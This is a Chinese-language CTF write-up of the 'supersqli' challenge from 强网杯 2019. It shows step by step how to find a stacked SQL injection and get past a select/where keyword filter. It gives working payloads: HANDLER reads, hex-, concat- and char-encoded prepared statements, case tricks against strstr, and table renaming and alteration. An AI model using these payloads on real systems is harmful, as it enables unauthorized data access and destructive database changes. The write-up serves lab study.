 # supersqli  | 强网杯 2019 随便注



![image-20220602220016590](image-20220602220016590.png)

上来不多说直接测试，这里直接报错

```sql
1' and 1=1#
```



![image-20220602220205878](image-20220602220205878.png)

![image-20220602220247668](C:\Users\86185\AppData\Roaming\Typora\typora-user-images\image-20220602220247668.png)

尝试另一种注释符号就可以正常注入了

```sql
1' and 1=1 --+
```

```sql
1' and 1=2 --+
```



![image-20220602220356089](C:\Users\86185\AppData\Roaming\Typora\typora-user-images\image-20220602220356089.png)

直接order by 测试字段数，最多可三列

```sql
1' order by 3#
```



![image-20220602220540117](C:\Users\86185\AppData\Roaming\Typora\typora-user-images\image-20220602220540117.png)

再尝试select查询，发现被 preg_match函数过滤了这些关键字

```
preg_match("/select|update|delete|drop|insert|where|\./i",$inject);
```







![image-20220602220956608](C:\Users\86185\AppData\Roaming\Typora\typora-user-images\image-20220602220956608.png)

多试几遍可以发现这个查询语句可以分号隔开，多语句查询的堆叠注入，那就有各种骚操作了

```sql
1';  show databases    ;#
```



![image-20220602221626553](C:\Users\86185\AppData\Roaming\Typora\typora-user-images\image-20220602221626553.png)

也可以用extractvalue爆库

```sql
1' and extractvalue(1,concat(0x7e,databse())) #
```





这里有个有意思的点， 注释的时候，如果用 # 注释，就需要把分号写上，否则会报错。然而用 --+ 则不会有这种问题

1：![image-20220602222120091](C:\Users\86185\AppData\Roaming\Typora\typora-user-images\image-20220602222120091.png)

2：

![image-20220602222203218](C:\Users\86185\AppData\Roaming\Typora\typora-user-images\image-20220602222203218.png)

3：![image-20220602222211612](C:\Users\86185\AppData\Roaming\Typora\typora-user-images\image-20220602222211612.png)







![image-20220602222507939](C:\Users\86185\AppData\Roaming\Typora\typora-user-images\image-20220602222507939.png)

接下来就是爆数据表的操作，select会被过滤，可以用show语句查询，执行成功出现两个表，因为已经做过了，所以知道是第一个表也不多浪费时间

```sql
1'; show tables from supersqli --+
```



![image-20220602222943716](C:\Users\86185\AppData\Roaming\Typora\typora-user-images\image-20220602222943716.png)

还是用show查询表的字段名，这里记得把表名用反引号括上，否则查询不出来，反引号可以让查询的字段不会变成关键字

```sql
1'; show columns from `1919810931114514` --+
```



![image-20220602223038327](C:\Users\86185\AppData\Roaming\Typora\typora-user-images\image-20220602223038327.png)

或者可以用desc查询表字段

```sql
1'; desc `1919810931114514` --+
```



最后就是各种查flag的操作了，目前已知有三种操作

一是handler查询

>   mysql除可使用select查询表中的数据，也可使用handler语句，这条语句使我们能够一行一行的浏览一个表中的数据，不过handler语句并不具备select语句的所有功能。它是mysql专用的语句，并没有包含到SQL标准中。
>   HANDLER语句提供通往表的直接通道的存储引擎接口，可以用于MyISAM和InnoDB表。

这里只做简单介绍，详细了解可以去https://blog.csdn.net/JesseYoung/article/details/40785137



![image-20220602223926943](C:\Users\86185\AppData\Roaming\Typora\typora-user-images\image-20220602223926943.png)

payload:

```sql
1'; handler `1919810931114514` open;handler `1919810931114514` read first  --+
```







二是预处理查询

虽然select被过滤，但是可以用set设置变量，这个变量可以编译成16进制、concat构造语句或是ascii码，当然也可以用concat直接构造语句不用设置变量

prepare 是预编译语句，会进行编码转换

最后用execute执行该语句

一个额外的知识点，select可以设置多个变量，而set只能设置一个



这里注意，set与prepare要改改成大写，或者大小写一起，否则会被strstr过滤，这个函数只过滤相应的格式，可以用大小写绕过

![image-20220603101542020](C:\Users\86185\AppData\Roaming\Typora\typora-user-images\image-20220603101542020.png)



payload1:

```sql
1';SEt @test=0x73656c656374202a2066726f6d2020603139313938313039333131313435313460; prEpare  payload from @test;execute payload;#
```

payload2:

```sql
1';Set @test=concat('sel','ect * from `1919810931114514`');pREpare payload from @test;execute payload;#
```

payload3:

```sql
1';PrePare payload from 
concat('sel','ect * from `1919810931114514`');execute payload;#
```

payload4:

```sql
1'; Set @test=char(115, 101, 108, 101, 99, 116, 32, 42, 32, 32, 102, 114, 111, 109, 32, 96, 49, 57, 49, 57, 56, 49, 48, 57, 51, 49, 49, 49, 52, 53, 49, 52, 96);PRepare payload from @test;execute payload;#
```







三是最骚的一个操作，把有flag的表数据插到正常查询的表里去



查words这个表可以看到两个字段，猜测查询语句可能为：

```sql
select * from words where id='$id';
```

![image-20220603111006385](C:\Users\86185\AppData\Roaming\Typora\typora-user-images\image-20220603111006385.png)

那么就可以设想一下把数据插到这个表：

```sql
select * from `1919810931114514` where flag='$id';
```



接下来构造payload，将words改成其他表名，把1919810931114514这个表改成words，并添加字段

payload:

```sql
1';
rename table `words` to `another`;
rename table `1919810931114514` to `words`;
alter table `words` change `flag` 
`id` varchar(100) character set utf8 collate utf8_general_ci NOT NULL;#
```





![image-20220603113207316](image-20220603113207316.png)

最后要用万能密码查询


